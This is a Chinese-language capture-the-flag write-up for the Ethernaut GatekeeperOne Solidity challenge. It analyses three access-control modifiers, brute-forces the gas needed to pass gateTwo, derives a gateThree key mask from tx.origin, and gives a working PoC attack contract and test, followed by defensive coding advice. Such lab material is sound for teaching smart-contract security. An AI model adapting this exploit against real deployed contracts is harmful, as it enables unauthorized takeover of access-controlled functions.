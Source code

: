 # 13. GateKeeperOne
## 攻击分析
- 攻击类型：访问权限控制
- 目标：进入合约，将entrant更改成deployer
- 要求：满足三个modifier条件

```solidity
contract GatekeeperOne {

  address public entrant;
  /* 通过合约调用 GatekeeperOne.enter */
  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  
  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```
1. gateOne
这块非常简单，只需要从另一个合约调用 GatekeeperOne 合约。
2. gateTwo
这要求我们运行到`gateTwo`进行require检查时，gasleft()的值能被8191整除,`gasleft() returns (uint256)`表征剩余gas。攻击者通过指定gas数量来达成攻击，那么如何去计算gas的数量呢？
   - Forge 可以帮助您估算您的合约将消耗多少 gas。
  Gas reports：Gas 报告让您大致了解到 Forge 认为 你的合约中的各个函数消耗 gas 的概况。
  Gas Tracking：Gas 跟踪让您了解 Forge 认为 您的合约中的各个函数消耗 gas 的具体细节。
运行`forge test --gas-report`，输出结果如下：
  ```
| test/GateKeeper.t.sol:GatekeeperOne contract |                 |     |        |       |         |
|----------------------------------------------|-----------------|-----|--------|-------|---------|
| Function Name                                | min             | avg | median | max   | # calls |
| enter                                        | 350             | 398 | 350    | 22687 | 465     |


| test/GateKeeper.t.sol:Solution contract |                 |      |        |       |         |
|-----------------------------------------|-----------------|------|--------|-------|---------|
| Function Name                           | min             | avg  | median | max   | # calls |
| Attack                                  | 1269            | 1326 | 1269   | 23679 | 465     |

```
通过gas报告，我们可以看到`enter`函数消耗了350 gas，`Attack`函数消耗了1269 gas，也就是说我们调用Solution.Attack()，保证gas > 23679 + 350 = 24029 gas可以进入`GatekeeperOne.enter()`，这块为了保证攻击的成功，我们gas范围选取在 8191*3+1000~1500，通过for循环来测试攻击所需gas（通过测试1000以下的无法成功）。
```solidity 
  function test_Attack() public {
        vm.startBroadcast(deployer);
        bool success;
        for(uint256 i = 1000; i < 1500; i++){
            uint gas = 8191*3 + i;
            success = solution.Attack{gas: gas}();
            if(success){
              console2.log("Success with gas", i);
              break;
            }
        }
        assertEq(gatekeeperOne.entrant(), deployer);
        vm.stopBroadcast();
    }
```
最终得到 i = 1464, 并且通过了测试,在实际攻击时，指定gas为 8191*3+1464 会revert，所以根据结果来约束for循环区间来节约gas。
[参考连接]()
3. gateThree
这需要满足3个require条件，其中第一个条件是`uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))`，这个条件是检查gateKey的低16位是否等于高32位，形如 0x0000ffff & x ；
第二个条件是`uint32(uint64(_gateKey)) != uint64(_gateKey)`，这个条件是检查gateKey的低32位是否不等于高64位，形如 0xffffffff+8位 & uint64(_gateKey) 就能够满足条件2；
第三个条件是`uint32(uint64(_gateKey)) == uint16(uint160(tx.origin))`，这个条件是检查gateKey的低32位是否等于tx.origin的低16位，形如 0x0000ffff，结合3个条件得到结果的掩码为 0xFFFFFFFF0000FFFF
——> bytes8 _gateKey = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF.
## Proof of Concept
根据以上分析，完整的PoC代码如下：
```
contract Solution {
    address contractAddress;

    constructor(address _contractAddress) {
        contractAddress = _contractAddress;
    }

    function Attack() external returns (bool) {
        bytes8 key = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;
        (bool success,) = contractAddress.call(abi.encodeWithSignature("enter(bytes8)", key));
        return success;
    }
}   

contract GatekeeperOneTest is BaseTest {

    GatekeeperOne public gatekeeperOne;
    Solution public solution;

    function setUp() public override {
        super.setUp();
        gatekeeperOne = GatekeeperOne(contractAddress);
        solution = new Solution(address(gatekeeperOne));
    }

    function test_Attack_gas() public {
        vm.startBroadcast(deployer);
        bool success;
        for(uint256 i = 1450; i < 1500; i++){
            uint gas = 8191*3 + i;
            success = solution.Attack{gas: gas}();
            if(success){
              console2.log("Success with gas", i);
              break;
            }
        }
        assertEq(gatekeeperOne.entrant(), deployer);
        vm.stopBroadcast();
    }
}
```
## 防御措施
在这个合约控制权限访问的三个modifier函数都并不是不可控制的，其中包含的gasleft(), tx.origin等都可以被利用，我们在编写合约时需要考虑到使用无法被操控的变量进行访问权限设置，并确保这些变量在合约中不会被修改, 避免使用tx.origin、避免过度依赖gasleft()、使用最新的 Solidity 版本等。
以下是一些在编写合约时可以考虑的方法：
1. 使用不可变变量: 在合约中使用constant或immutable关键字声明变量，这样可以确保其数值在合约部署后无法修改。这样的变量通常用于存储常量值或者一次性设置的值。
```solidity
contract MyContract {
    address public constant OWNER = 0x123...; // 不可变的合约拥有者地址
    uint256 public immutable CREATION_TIME = block.timestamp; // 合约创建时间
}
```
2. 访问控制列表 (Access Control Lists, ACLs): 使用 ACL 模式可以将权限控制逻辑集中化，将访问权限与角色/地址绑定，并在需要时修改 ACL 而不是直接修改权限控制函数。这种方法有助于提高可维护性和可扩展性。
```solidity
contract MyContract {
    mapping(address => bool) public isAdmin;
    
    constructor() {
        isAdmin[msg.sender] = true; // 合约部署者默认为管理员
    }
    
    modifier onlyAdmin() {
        require(isAdmin[msg.sender], "Not an admin");
        _;
    }
}
```
3. 抽象接口 (Abstract Interfaces): 将访问权限相关的逻辑抽象为接口，以便将来可以轻松地修改实现细节或者切换不同的权限控制策略。
```solidity
interface IAccessControl {
    function hasAccess(address _user) external view returns (bool);
}

contract MyContract {
    IAccessControl public accessControl;
    
    constructor(IAccessControl _accessControl) {
        accessControl = _accessControl;
    }
    
    modifier onlyAuthorized() {
        require(accessControl.hasAccess(msg.sender), "Unauthorized");
        _;
    }
}
```